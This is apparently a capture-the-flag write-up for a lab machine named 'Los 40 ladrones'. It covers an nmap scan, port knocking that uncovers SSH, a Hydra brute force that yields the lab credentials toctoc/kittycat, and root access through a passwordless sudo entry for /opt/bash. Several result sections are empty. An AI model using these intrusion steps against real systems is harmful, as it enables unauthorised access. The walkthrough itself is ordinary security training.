

# Los 40 ladrones

## Port Enumeration

To begin our scan, we use the Nmap tool  during our discovery phase. As we can see, we have the following open ports:

```ruby
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2
```

```ruby
┌──(root㉿kali)-[/home/kali]
└─# nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2  
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 64

```

## Examining the Web Page and Its Infrastructure

When executing the Gobuster command, we discover these files:


We have an interesting file called qdefense.txt, so we inspect this file:

```ruby
Recuerda llama antes de entrar , no seas como toctoc el maleducado
7000 8000 9000
busca y llama +54 2933574639
```

It appears we have a user named `toctoc`.
I'm going to scan those ports to see what we can obtain, and we see ports that are filtered:


We can see that if we scan them one by one, we obtain the following information:


Finally, we perform another scan and see that port 22 has been found:


This technique used to hide ports is called Port Knocking. It's a mechanism to open ports externally on a firewall through a pre-established sequence of connection attempts to closed ports. When the firewall receives the correct sequence, it modifies its rules to allow the host that made the attempts to connect to a specific port.
Although I did it manually with nmap, it can be done with the knock tool. It can be installed as follows:

```shell
sudo apt update && sudo apt install -y knockd
```

## Intrusion
With the user we have and the newly discovered SSH port, we're going to perform a brute force attack using the Hydra tool. After waiting for a while, it finds the password.





Therefore, we can now access via SSH with the user toctoc and the password:
```shell
user: toctoc
passwd: kittycat 
```

## Privilege Escalation

For privilege escalation, we first execute the command:
```shell 

sudo -l
```
If we look at which files we can access and execute with sudo, two quite important files appear:

```shell
User toctoc may run the following commands on 3b838c74350b:
    (ALL : NOPASSWD) /opt/bash
    (ALL : NOPASSWD) /ahora/noesta/function

```

Simply by executing the following command, we become the root user:

```shell 
sudo /opt/bash
```

